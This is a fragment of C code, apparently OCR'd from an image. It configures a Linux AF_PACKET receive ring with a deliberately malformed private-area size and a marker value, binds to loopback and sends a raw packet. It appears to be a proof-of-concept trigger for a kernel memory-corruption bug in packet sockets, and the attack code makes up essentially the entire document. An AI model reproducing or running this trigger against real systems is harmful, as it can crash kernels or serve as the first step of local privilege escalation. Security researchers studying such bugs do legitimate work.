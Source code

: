 ```c
    memset(&req, 0, sizeof(req));

    req.tp_block_size = 0x1000;
    req.tp_block_nr = 2;
    req.tp_frame_size = 0x100;
    req.tp_frame_nr = (0x1000 * 2) / 0x100;
    req.tp_retire_blk_tov = 0x41424344;
    req.tp_sizeof_priv = 0x80005000;
    req.tp_feature_req_word = 0;

    rv = setsockopt(s, SOL_PACKET, PACKET_RX_RING, &req, sizeof(req));
    if (rv < 0) 
    {
	    perror("[-] setsockopt(PACKET_RX_RING)");
	    exit(EXIT_FAILURE);
    }

    struct sockaddr_ll sa;
    memset(&sa, 0, sizeof(sa));
    sa.sll_family = PF_PACKET;
    sa.sll_protocol = htons(ETH_P_ALL);
    sa.sll_ifindex = if_nametoindex("lo");
    sa.sll_hatype = 0;
    sa.sll_pkttype = 0;
    sa.sll_halen = 0;

    rv = bind(s, (struct sockaddr *)&sa, sizeof(sa));
    if (rv < 0)
    {
	    perror("[-] bind(AF_PACKET)");
	    exit(EXIT_FAILURE);
    }

    int sock = socket(AF_PACKET, SOCK_RAW, IPPROTO_RAW);
    if (sock == -1)
    {
	    perror("[-] socket(SOCK_RAW)");
	    exit(EXIT_FAILURE);
    }

    struct sockaddr_ll sa2;
    memset(&sa2, 0, sizeof(sa2));
    sa2.sll_ifindex = if_nametoindex("lo");
    sa2.sll_halen = ETH_ALEN;

    if (sendto(sock, "AAAABBBCCCCDDDD", 16, 0, (struct sockaddr *)&sa2, sizeof(sa2)) < 0) 
    {
	    perror("[-] sendto(SOCK_RAW)");
	    exit(EXIT_FAILURE);
    }

    return 0;
}
```

